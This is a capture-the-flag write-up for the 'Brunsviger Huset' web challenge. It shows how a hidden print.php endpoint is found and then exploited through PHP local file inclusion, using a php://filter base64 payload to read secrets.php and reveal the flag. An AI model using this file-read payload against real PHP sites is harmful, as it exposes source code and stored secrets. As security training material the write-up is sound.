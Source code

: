# Brunsviger Huset

```
Difficulty: Easy-Medium
Author: ha1fdan

Welcome to "Brunsviger Huset" (House of Brunsviger), the oldest Danish bakery in town! Our bakers have been perfecting their craft for over 150 years, and our signature brunsviger is a favorite among locals and tourists alike. But, it seems like our bakery has a secret ingredient that's not on the menu...

Can you find the hidden flag that's been baked into our website? Be warned, our bakers are notorious for their clever hiding spots!
```

Reading the code in DevTools, there is a `print.php`:

```javascript
function printCalendar() {
    // Open the print URL in a new window (Note to self: Remember to add print.php to robots.txt!)
    const printUrl = 'print.php?file=/var/www/html/bakery-calendar.php&start=2025-07&end=2025-09';
    const printWindow = window.open(printUrl, '_blank', 'width=800,height=600,toolbar=no,menubar=no,scrollbars=yes');
    
    // Wait for the page to load, then trigger print
    if (printWindow) {
        printWindow.onload = function() {
            setTimeout(function() {
                printWindow.print();
                // Close the window after printing (optional)
                setTimeout(function() {
                    printWindow.close();
                }, 1000);
            }, 1000);
        };
    }
}
```

That seems to invoke other php files. The `robots.txt` contains:

```
User-agent: *
Allow: /index.php
Allow: /bakery-calendar.php
Disallow: /print.php
Disallow: /secrets.php
```

So we want to print the contents of `secret.php`. Pass something not a file:

```shell
$ curl https://brunsviger-huset-0b3fd2b7579b45c0.challs.brunnerne.xyz/print.php?file=/
<br />
<b>Warning</b>:  include(/): Failed to open stream: Not a directory in <b>/var/www/html/print.php</b> on line <b>6</b><br />
<br />
<b>Warning</b>:  include(): Failed opening '/' for inclusion (include_path='.:/usr/local/lib/php') in <b>/var/www/html/print.php</b> on line <b>6</b><br />
```

So that `include()` is used in the php code. Through <https://www.riskinsight-wavestone.com/en/2022/09/barbhack-2022-leveraging-php-local-file-inclusion-to-achieve-universal-rce/>, we know that we can read the content of secrets.php via:

```
https://brunsviger-huset-0b3fd2b7579b45c0.challs.brunnerne.xyz/print.php?file=php://filter/convert.base64-encode/resource=secrets.php
```

Then the base64 encoded file is shown:

```
PD9waHAKLy8gS2VlcCB0aGlzIGZpbGUgc2VjcmV0LCBpdCBjb250YWlucyBzZW5zaXRpdmUgaW5mb3JtYXRpb24uCiRmbGFnID0gImJydW5uZXJ7bDBjNGxfZjFsM18xbmNsdXMxMG5fMW5fdGgzX2I0azNyeX0iOwo/Pgo=
```

Decoded php:

```
<?php
// Keep this file secret, it contains sensitive information.
$flag = "brunner{l0c4l_f1l3_1nclus10n_1n_th3_b4k3ry}";
?>
```
